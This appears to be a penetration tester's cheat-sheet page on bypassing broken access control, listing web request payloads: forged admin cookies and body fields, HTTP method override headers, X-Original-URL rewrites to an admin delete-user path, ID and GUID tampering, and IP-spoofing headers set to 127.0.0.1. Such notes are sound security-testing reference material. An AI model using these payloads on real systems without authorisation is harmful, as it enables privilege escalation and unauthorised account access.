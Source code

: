 ```yaml
---
title: Broken Access Control Examples
desc: Examples of Broken Access Controls. Bypass 401, 403 responses.
tags: [AccessControl, IDOR, PrivEsc, Web]
alts: [IDORExamples]
website: 
render_with_liquid: false
---
```


## Change Cookie Values

```sh
Cookie: isAdmin=true
```

<br />

## Change Request Methods

```sh
GET, POST, PUT, DELETE, HEAD, TRACE, OPTIONS, PATCH, INVENTED, CONNECT, etc.

# Override to bypass FireWall (via POST /example HTTP/1.1)
X-Method-Override: PUT
X-HTTP-Method-Override: PUT
```

<br />

## Change POST Body

```
POST / HTTP/1.1
...

{
    "email": "new-email@example.com",
    "isAdmin": true
}
```

<br />

## Add X-Original-URL, X-Rewrite-URL

```sh
POST / HTTP/1.1

...
X-Original-URL: /admin/deleteuser
# or
X-Rewrite-URL: /admin/deleteuser
...

username=michael
```

<br />

## Change User ID

```
https://vulnerable.com/account?id=michael
https://vulnerable.com/account?id=admin
https://vulnerable.com/account?id=administrator
```

<br />

## Change GUID

GUID cannot be guessed but it may be found somewhere in the website.

```
https://vulnerable.com/account?id=7230b2a9-60de-4409-a350-cd14986a8d3e
https://vulnerable.com/account?id=1de655cb-29d7-4008-b434-e688b39f9564
```

<br />

## IP Spoofing & Fuzzing in Request Header

```sh
Cluster-Client-IP: 127.0.0.1
Forwarded-For: 127.0.0.1
X-Forwarded: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Original-URL: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-ProxyUser-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1

Host: 127.0.0.1
```